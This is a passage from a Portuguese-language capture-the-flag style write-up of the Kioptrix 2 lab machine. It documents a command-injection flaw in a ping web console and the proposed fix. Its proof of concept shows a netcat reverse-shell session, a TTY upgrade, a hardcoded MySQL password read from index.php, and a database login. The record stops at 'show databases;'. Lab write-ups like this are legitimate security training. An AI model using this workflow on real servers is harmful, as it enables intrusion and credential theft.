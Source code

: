 ![página acessada](https://raw.githubusercontent.com/Pre4ch3r/blog/assets/images/kioptrix_2_image/k2-2.png)

**Vulnerabilidade:** Remote Command Execution

**Explicação:**
Uma falha na hora de sanitizar o input do usuário pode permitir que este injete comandos de servidor diretamente no formulário web. O servidor retorna os resultados na pŕopria página web. Essa falha pode ser escalada por se criar um *reverse shell* para que o hacker possa interagir com o servidor remotamente.

**Solução:** Filtrar comandos de servidor que forem passados pelo usuário.


**Risco:** Alto

**Prova de Conceito:**
Na gravura a seguir vemos que o formulário é uma espécie de *web console* que realiza um comando **ping -c 3 < ip-da-máquina >**. Ao realizar um ping para o google.com, vemos o resultado abaixo:

![ping 8.8.8.8](https://raw.githubusercontent.com/Pre4ch3r/blog/assets/images/kioptrix_2_image/k2-3.png)

Por receber comandos do usuário e realizar no servidor, usei a tecnica de criar um shell reverso usando o web console:

![web console injetado](https://raw.githubusercontent.com/Pre4ch3r/blog/assets/images/kioptrix_2_image/k2-4.png)

Trecho do acesso remoto ao servidor e obtenção de credenciais:

```bash
#obtendo shell reversa
$ nc -lnvp 1234                                                   
listening on 1234 ...                           
connect to [10.0.2.11] from [10.0.2.15] 32782
bash:no job control in this shell 
$ python -c 'import pty;pty.spawn("/bin/bash")'
bash-3$ export TERM=xterm-256color
bash-3$^Z
$ stty raw -echo;fg
[1] + continued  nc -lnvp 1234   
bash-3$ clear
bash-3$ ls
index.php pingit.php 
bash-3$ ls -la
total 24
drwxr-xr-x 2 root root 4096 Oct  8  2009 .
drwxr-xr-x 8 root root 4096 Oct  7  2009 ..
-rwxr-Sr-t 1 root root 1733 Feb  9  2012 index.php
-rwxr-Sr-t 1 root root  199 Oct  8  2009 pingit.php
#arquivo index.php contem a senha do usuario john no mysql
bash-3$ cat index.php
<?php
       mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
       //print "Connected to MySQL <br/>";
        mysql_select_db("webapp");

#acessando mysql

bash-3$ mysql -u john
ERROR 1045(28000): Access denied for user 'john'@'localhost' (using password: NO)
bash-3$mysql -u john -p
Enter password:
Welcome to the MySQL monitor. Commands end with ; or \g.
MySQL connection id is 24631 to server version: 4.1.22
Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

#conectando ao banco de dados
mysql> show databases;
```